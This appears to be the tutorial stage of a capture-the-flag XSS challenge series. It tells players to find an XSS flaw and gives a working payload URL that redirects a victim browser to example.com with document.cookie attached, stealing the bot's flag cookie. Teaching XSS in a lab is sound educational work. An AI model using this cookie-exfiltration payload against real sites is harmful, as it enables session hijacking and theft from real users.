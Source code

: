# Stage1[Tutorial]

## Question

This stage is for tutorial. You solve Senbon XSS challenges with the order below.

1. Inspect question page and find XSS vulenrability.
(The page for this stage -> http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/)
2. Make a URL contains XSS payload (runs some code to steal the flag in somewhere) for the question page.
3. Submit the URL from `URL form`.
4. Stealing the FLAG, submit the FLAG from `FLAG form`.

So, in this stage, you just make the url like below and submit.

`http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?location=%22http://example.com/?%22%2Bdocument.cookie`

For tutorial, please replace `example.com` to your site and submit the URL from `URL form`. The victim browser will access your url, and when your XSS payload successfully runs on the browser, the browser sends you the FLAG.
